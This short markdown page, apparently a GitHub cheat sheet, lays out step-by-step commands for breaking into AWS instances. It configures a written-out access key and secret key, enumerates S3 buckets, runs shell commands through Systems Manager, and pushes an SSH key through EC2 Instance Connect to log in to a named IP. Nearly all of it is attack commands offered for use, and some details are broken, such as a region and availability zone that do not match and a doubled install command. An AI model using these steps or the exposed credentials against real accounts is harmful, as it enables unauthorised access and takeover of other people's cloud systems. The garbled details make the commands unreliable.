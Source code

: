 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Upon adding the crednetail.next step is to enumerate
```

aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to have priviledge to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
